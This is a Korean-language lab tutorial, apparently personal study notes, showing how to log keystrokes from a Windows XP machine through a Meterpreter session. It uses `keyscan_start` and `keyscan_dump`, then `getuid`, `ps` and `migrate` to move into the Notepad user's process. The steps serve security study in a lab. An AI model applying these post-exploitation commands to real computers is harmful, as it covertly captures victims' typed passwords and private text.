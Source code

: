 ```jsx
~# sudo thunar 
```

루트 폴더가 열렸을 것이다. 캡쳐 화면이 저장되어 있는지 확인하자.

이제 key scan을 시작해보자

keyscan_start 명령어로 시작하고 dump 명령어로 공격대상 pc에서 작성된 텍스트들을 가져올 수 있다.

```jsx
meterpreter > keyscan_start

```

윈도우 xp에서 시작 → 실행(Run) 을 눌러 검색창에 notepad 를 검색하여 연다

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8991e69a-c0db-4444-b14e-c25c95b92772/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8991e69a-c0db-4444-b14e-c25c95b92772/Untitled.png)

메모장안에 내용을 작성한다.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/34956980-d587-4b5e-8918-7ae5096f0ef2/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/34956980-d587-4b5e-8918-7ae5096f0ef2/Untitled.png)

```jsx
meterpreter > keyscan_dump
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fa61c301-99e4-4416-bb74-9ea25c9a75b2/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fa61c301-99e4-4416-bb74-9ea25c9a75b2/Untitled.png)

아무 텍스트도 dump 되지않았다. 일단 keyscan을 종료하자

이유가 무엇일까 getuid 명령어를 통해 서버를 실행시키고 있는 사용자를 확인하자 

```jsx
meterpreter > keyscan_stop
meterpreter > getuid
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/06dcdd09-43d3-4c61-8329-580875445da9/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/06dcdd09-43d3-4c61-8329-580875445da9/Untitled.png)

window XP의 system user이지만 노트패드에 텍스트를 작성한 사용자는 다르다.

이는 ps 명령어를 통해 확인할 수 있다.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b63a95b8-8b7b-44c1-b42d-f664d9c46ea1/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b63a95b8-8b7b-44c1-b42d-f664d9c46ea1/Untitled.png)

노트패드를 실행시킨 유저로 migrate 명령어를 통해 사용자를 변경해준다.

```jsx
meterpreter > ps
meterpreter > migrate 256
meterpreter > getuid
meterpreter > keyscan_start
```

이제 다시 WinXP의 메모장으로 돌아가서 다른 내용을 작성해보자

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/02d15d1c-8374-4a21-9d11-867c4c534823/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/02d15d1c-8374-4a21-9d11-867c4c534823/Untitled.png)
